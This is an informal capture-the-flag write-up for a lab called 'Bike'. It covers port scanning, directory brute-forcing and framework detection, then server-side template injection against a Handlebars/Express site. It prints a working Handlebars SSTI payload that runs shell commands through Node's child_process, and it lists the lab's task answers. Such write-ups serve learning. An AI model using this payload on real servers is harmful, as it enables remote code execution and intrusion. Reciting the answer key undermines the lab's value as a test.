 # BIKE

First reaction nmap and going to the navigator seeing if is there anything reachable.<br/><br/>
Nmap reach two ports the 22 and the 80.<br/>
On the port 22 there is like always the ssh service! <br/>
And on the port 80 we can see that there is a sevice called `Node.js`<br/>
On the navigator something is reachable but nothing really exploitable.<br/>
So first thing first let's do a gobuster!!! <br/><br/>

According to wapalyser we can know that the framework used to run the site is express.<br/><br/>

Now that we have all oh this and after some research I did have to go to the walktrough and notice that i have to learn something new! The `server side template injection`. 🫠 <br/>

So let's close the welktrough and trying by myself!! Let's go to Hacktrick!<br/>
I learn that there is some test to do to know what's the engine running on this server! [Source](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)<br/>
So I did a `fuzzing template`! and noticed that an error occur and i can read on the 4th line the root used by the server to run it and, also discovered the service running it is `handlebars`! <br/>
Let's visit the payloads i got from git hub! `Server Side Template Injection` directory opening the read me and looking for the handlebars engine!<br/><br/>
Here's what i got:
```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Directly try it on the website!! Obviously nothing happend, still an error occur! <br/>
... research 😑<br/><br/>


## Task 01
```bash
22,80
```
---
## Task 02
```bash
node.js
```
---
## Task 03
```bash
express
```
---
## Task 04
```bash
server side template injection
```
---
## Task 05
```bash
handlebars
```
---
## Task 06
```bash
decoder
```
---